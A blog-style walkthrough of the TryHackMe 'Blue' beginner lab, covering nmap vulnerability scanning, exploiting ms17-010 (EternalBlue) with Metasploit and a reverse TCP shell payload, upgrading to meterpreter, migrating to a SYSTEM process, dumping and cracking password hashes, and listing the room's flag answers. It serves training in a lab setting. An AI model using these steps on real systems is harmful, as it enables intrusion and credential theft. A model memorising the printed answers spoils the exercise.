```yaml
---
layout: post
title: Blue
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, windows, metasploit, meterpreter, hashdump, ]
---
```

![Blue](./assets/blue.gif){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

**Difficulty level:** Easy

## Task 1: Recon
Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.


### Questions

Q1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

> "no answer needed"

Q2. How many ports are open with a port number under 1000?

> "3"

Q3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

> "ms17-010"


### MyWalk

Usually go with this scan...

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```
{: .nolineno }

But following the tip on Q1, about using some nmap scripting is very useful in this case:

```bash
nmap -sV -vv --script vuln 10.10.40.46
```
{: .nolineno }

We have now the answers to our questions above.

## Task 2: Gain Access

Exploit the machine and gain a foothold.

### Questions

Q1. Start Metasploit

> "No answer needed"

Q2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

> "exploit/windows/smb/ms17_010_eternalblue"

Q3. Show options and set the one required value. What is the name of this value? (All caps for submission)

> "RHOSTS"

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

```bash
set payload windows/x64/shell/reverse_tcp
```
{: .nolineno }

Q4. With that done, run the exploit!

> "No answer needed"

Q5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

> "No answer needed"

## Task 3: Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

### Questions

Q1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)  
Hint: "Google this: shell_to_meterpreter"

> "post/multi/manage/shell_to_meterpreter"

Q2. Select this (use MODULE_PATH). Show options, what option are we required to change?

> "SESSION"

Q3. Set the required option, you may need to list all of the sessions to find your target here.  
Hint: "sessions -l"

> "No answer needed"

Q4. Run! If this doesn't work, try completing the exploit from the previous task once more.  
Hint: "Command: run (or exploit)"

> "No answer needed"

Q5. Once the meterpreter shell conversion completes, select that session for use.  
Hint: "sessions SESSION_NUMBER"

> "No answer needed"

Q6. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

> "No answer needed"

Q7. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

> "No answer needed"

## Task 4: Cracking

Dump the non-default user's password and crack it!

### Questions

Q1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

> "Jon"

Q2. Copy this password hash to a file and research how to crack it. What is the cracked password?  
Hint: "This password can be found within the rockyou.txt wordlist"

> "alqfna22"

## Task 5: Find Flags!

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!

### Questions

Q1. Flag1? This flag can be found at the system root.  
Hint: "Can you C it?"

> "flag{access_the_machine}"

Q2. Flag2? This flag can be found at the location where passwords are stored within Windows.  
Hint: "I wish I wrote down where I kept my password. Luckily it's still stored here on Windows."

*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

> "flag{sam_database_elevated_access}"

Q3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.  
Hint: "You'll need to have elevated privileges to access this flag."

> "flag{admin_documents_can_be_valuable}"
